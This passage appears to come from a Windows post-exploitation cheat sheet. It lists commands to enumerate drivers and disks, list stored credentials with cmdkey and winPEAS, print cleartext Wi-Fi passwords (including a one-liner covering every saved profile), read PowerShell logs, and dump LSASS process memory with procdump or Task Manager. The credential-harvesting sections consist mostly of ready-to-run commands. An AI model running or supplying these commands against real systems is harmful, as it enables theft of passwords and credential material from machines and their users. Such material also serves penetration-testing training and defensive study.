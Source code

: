 ```

driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
driverquery.exe /fo table /si
DriverQuery.exe --no-msft

Get-WmiObject Win32\_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$\_.DeviceName -like "\*VMware\*"}

Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root
```
# Sensitive data
## Show Unmounted Disks
```
mountvol

mountvol c:\\test \\\?\\Volume{93131ba8-0000-0000-0000-100000000000}\
```
## Passwords in memory
### cmdkey
```
winPEASany.exe quiet cmd windowscreds
```
\*If there are entries, it means that we may able to runas certain user who stored his cred in windows\* 
```
cmdkey /list 
```
### WIFI 
Find AP SSID:
```
netsh wlan show profile
```
Get cleartext passwords:
```
netsh wlan show profile <SSID> key=clear
```
Onliner for all AP:
```
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```
### Powershell logging
```
Get-WinEvent -LogName "windows Powershell" | select -First 15 | Out-GridView
Get-WinEvent -LogName "Microsoft-Windows-Powershell/Operational" | select -first 20 | Out-Gridview
```
### LSASS or  FTP, etc. (SeDebug)
Dump the lsass.exe process to a file using Windows built-in Task Manager with right-clicking “lsass.exe” then selecting “Create Dump File” (since Vista) or [Procdump](http://technet.microsoft.com/en-au/sysinternals/dd996900.aspx)(pre Vista) – alternatively, use [powershell-fu](https://github.com/mattifestation/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) , etc. (see [carnal0wnage](http://carnal0wnage.attackresearch.com/2013/07/mimikatz-minidump-and-mimikatz-via-bat.html) blog):
```
# Taskmanager
Right click -> Create dump file

# Procdump
procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```